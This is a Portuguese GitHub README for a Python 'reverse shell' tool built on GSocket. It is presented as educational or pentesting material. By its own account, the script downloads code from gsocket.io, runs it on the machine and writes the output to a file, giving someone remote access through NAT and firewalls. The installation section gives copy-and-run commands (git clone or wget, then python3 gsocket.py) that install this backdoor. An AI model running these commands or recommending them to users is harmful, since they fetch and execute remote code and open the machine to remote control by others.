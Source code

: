 # 🐚 Shell Reverso com GSocket

![Captura de Tela (7)](https://github.com/user-attachments/assets/522b4a3a-dcf2-4ea9-8e30-b2e86ebcda26)


Este repositório contém um script em Python que utiliza a ferramenta [GSocket](https://gsocket.io) para criar uma **conexão reversa segura** e estável, mesmo atrás de NATs ou firewalls. Ideal para fins educacionais, testes de penetração ou demonstrações de segurança ofensiva, O script baixa um código da internet (do site gsocket.io) e executa ele no seu computador via terminal, salvando o que ele imprimir no arquivo output.txt. Isso pode permitir que alguém se conecte remotamente ao seu computador.

---

## ⚙️ Requisitos

- Python 3
- cURL
- Permissão para execução de comandos no terminal
- Conexão com a internet

---

## 📦 Instalação

Clone o repositório:

```bash
git clone https://github.com/AndreyFreittas/Shell-Reverso.git
cd Shell-Reverso
python3 gsocket.py
cat output.txt
```

ou
```bash
wget https://raw.githubusercontent.com/AndreyFreittas/Shell-Reverso/refs/heads/main/gsocket.py
python3 gsocket.py
cat output.txt
```


